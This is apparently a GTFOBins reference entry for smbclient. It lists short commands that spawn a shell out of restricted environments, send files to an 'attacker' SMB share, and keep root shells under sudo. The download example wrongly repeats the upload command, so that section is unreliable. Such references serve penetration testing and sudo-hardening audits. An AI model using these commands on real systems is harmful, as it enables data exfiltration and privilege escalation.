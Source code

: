 # GTFOBin: smbclient

A valid SMB/CIFS server must be available.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
smbclient '\\attacker\share'
!/bin/sh
```

## File upload

It can exfiltrate files on the network.

Install Impacket and run `sudo smbserver.py share /tmp` on the attacker box to collect the file.

```
smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
```

## File download

It can download remote files.

Install Impacket and run `sudo smbserver.py share /tmp` on the attacker box to send the file.

```
smbclient '\\attacker\share' -c 'put file_to_send where_to_save'
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo smbclient '\\attacker\share'
!/bin/sh
```
